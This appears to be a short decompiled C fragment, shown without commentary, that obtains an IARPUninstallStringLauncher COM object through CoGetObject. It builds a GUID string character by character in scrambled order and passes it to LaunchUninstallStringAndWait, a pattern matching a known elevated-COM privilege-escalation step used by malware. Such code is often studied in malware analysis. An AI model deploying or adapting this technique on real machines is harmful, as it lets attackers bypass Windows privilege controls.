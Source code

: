 ```c
    CoInitialize(0);
    memset(&pBindOptions, 0, 0x24u);
    v8 = 0;
    pBindOptions.cbStruct = 36;
    v7 = 4;


    // Getting COM Object
    if ( CoGetObject(pszName, &pBindOptions, &iid, &ppv) >= 0 )
    {
      pfn_LaunchUninstallStringAndWait = *(void (__stdcall **)(void *, _DWORD, __int16 *, _DWORD, _DWORD))(*(_DWORD *)ppv + 12);
      pfn_IARPUninstallStringLauncher_Release = *(void (__stdcall **)(void *))(*(_DWORD *)ppv + 8);
      if ( pfn_LaunchUninstallStringAndWait )
      {
        if ( pfn_IARPUninstallStringLauncher_Release )
        {
          v4[3] = 'B';
          v4[5] = 'B';
          v4[6] = 'D';
          v4[27] = 'D';
          v4[34] = 'D';
          v4[35] = 'D';
          v4[9] = '-';
          v4[14] = '-';
          v4[19] = '-';
          v4[24] = '-';
          v4[0] = '{';
          v4[1] = '3';
          v4[2] = 'E';
          v4[4] = '0';
          v4[7] = 'B';
          v4[8] = '8';
          v4[10] = '1';
          v4[11] = 'B';
          v4[12] = 'E';
          v4[13] = '5';
          v4[15] = '4';
          v4[16] = '9';
          v4[17] = '1';
          v4[18] = '8';
          v4[20] = 'A';
          v4[21] = '7';
          v4[22] = '8';
          v4[23] = '8';
          v4[25] = 'A';
          v4[26] = '5';
          v4[28] = '2';
          v4[29] = 'F';
          v4[30] = 'C';
          v4[31] = 'A';
          v4[32] = '2';
          v4[33] = 'E';
          v4[36] = 'A';
          v4[37] = '}';
          v4[38] = '\0';
          pfn_LaunchUninstallStringAndWait(ppv, '\0', v4, 0, 0);
          pfn_IARPUninstallStringLauncher_Release(ppv);
        }
      }
    }
    CoUninitialize();
  }
```